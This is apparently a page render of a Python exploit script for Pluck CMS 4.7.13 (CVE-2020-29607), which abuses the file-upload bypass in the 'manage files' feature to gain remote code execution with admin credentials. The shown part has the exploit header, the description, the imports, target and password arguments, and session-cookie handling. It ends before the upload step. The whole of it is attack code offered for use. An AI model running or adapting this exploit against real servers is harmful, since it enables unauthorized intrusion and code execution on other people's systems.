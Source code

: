 EXP
---

    # Exploit Title: Pluck CMS 4.7.13 - File Upload Remote Code Execution (Authenticated)
    # Date: 25.05.2021
    # Exploit Author: Ron Jost (Hacker5preme)
    # Vendor Homepage: https://github.com/pluck-cms/pluck
    # Software Link: https://github.com/pluck-cms/pluck/releases/tag/4.7.13
    # Version: 4.7.13
    # Tested on Xubuntu 20.04
    # CVE: CVE-2020-29607

    '''
    Description:
    A file upload restriction bypass vulnerability in Pluck CMS before 4.7.13 allows an admin
    privileged user to gain access in the host through the "manage files" functionality,
    which may result in remote code execution.
    '''


    '''
    Import required modules:
    '''
    import sys
    import requests
    import json
    import time
    import urllib.parse


    '''
    User Input:
    '''
    target_ip = sys.argv[1]
    target_port = sys.argv[2]
    password = sys.argv[3]
    pluckcmspath = sys.argv[4]


    '''
    Get cookie
    '''
    session = requests.Session()
    link = 'http://' + target_ip + ':' + target_port + pluckcmspath
    response = session.get(link)
    cookies_session = session.cookies.get_dict()
    cookie = json.dumps(cookies_session)
    cookie = cookie.replace('"}','')
    cookie = cookie.replace('{"', '')
    cookie = cookie.replace('"', '')
    cookie = cookie.replace(" ", '')
    cookie = cookie.replace(":", '=')
